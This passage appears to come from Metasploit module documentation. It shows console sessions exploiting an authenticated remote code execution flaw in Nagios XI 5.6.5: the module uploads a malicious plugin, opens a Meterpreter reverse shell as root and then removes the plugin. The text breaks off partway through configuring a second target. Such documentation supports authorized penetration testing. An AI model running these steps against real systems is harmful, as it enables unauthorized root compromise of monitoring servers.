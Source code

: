 ```
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /nagiosxi/       yes       The base path to the Nagios XI application
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME        nagiosadmin      yes       Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.28     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux (x86)


msf exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.1.28:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.6.5
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (809/809 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the plugin to request the final payload...
[*] Sending stage (980808 bytes) to 192.168.1.14
[*] Meterpreter session 1 opened (192.168.1.28:4444 -> 192.168.1.14:54214) at 2021-04-01 10:59:52 -0400
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

meterpreter > getuid
Server username: root @ localhost.localdomain (uid=0, gid=0, euid=0, egid=0)
```

### Nagios XI 5.6.5 running on CentOS 7 - Linux (cmd) target
```
msf > use exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set rhosts 192.168.1.14
rhosts => 192.168.1.14
msf exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set lhost 192.168.1.28
lhost => 192.168.1.28
msf exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set password nagiosadmin
password => nagiosadmin
msf exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set target 2
target => 2
msf exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > show options

Module options (exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce):

```